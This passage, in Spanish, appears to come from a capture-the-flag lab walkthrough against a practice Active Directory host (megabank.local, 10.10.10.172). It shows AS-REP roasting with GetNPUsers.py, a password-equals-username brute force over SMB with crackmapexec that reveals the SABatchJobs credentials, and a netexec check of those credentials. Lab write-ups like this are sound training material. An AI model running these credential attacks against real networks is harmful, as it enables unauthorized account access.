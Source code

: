 ```bash
GetNPUsers.py -no-pass -usersfile users megabank.local/ 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/964_vmware_MXrceuJH2m.png" alt=""><figcaption></figcaption></figure>

## Credential Brute Force - Crackmapexec

Procederemos a realizar un ataque de fuerza bruta utilizando **crackmapexec** para que valide por SMB si el listado de usuarios que le pasamos, alguno tiene de contraseña el mismo nombre de usuario. Comprobamos que obtenemos que el usuario "SABatchJobs" tiene de contraseña su mismo nombre de usuario.

```bash
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/965_vmware_x1ieOnrGuo.png" alt=""><figcaption></figcaption></figure>

Comprobaremos con **netexec** de que se puede acceder al SMB con las credenciales encontradas.

```bash
netexec smb 10.10.10.172 -u SABatchJobs -p 'SABatchJobs' 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/966_vmware_JqYrbeA3ac.png" alt=""><figcaption></figcaption></figure>

Guardaremos las credenciales obtenidas en el archivo "credentials.txt".

```bash
catnp credentials.txt
```

<figure><img src="../../../.gitbook/assets/967_vmware_S9UblGPoRP.png" alt=""><figcaption></figcaption></figure>

